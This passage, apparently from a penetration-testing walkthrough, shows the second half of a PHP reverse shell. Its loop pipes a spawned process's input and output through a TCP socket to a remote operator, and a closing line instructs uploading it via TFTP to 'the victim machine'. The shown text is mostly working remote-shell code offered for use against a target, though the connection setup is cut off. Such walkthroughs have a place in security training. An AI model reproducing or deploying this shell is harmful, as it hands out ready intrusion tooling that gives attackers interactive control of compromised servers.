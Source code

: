 ```php
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
Save it on your machine because we will upload it on the victim machine. Remember that each file we upload on the target machine by TFTP, it will be stored in the `/var/lib/tftpboot/` folder.
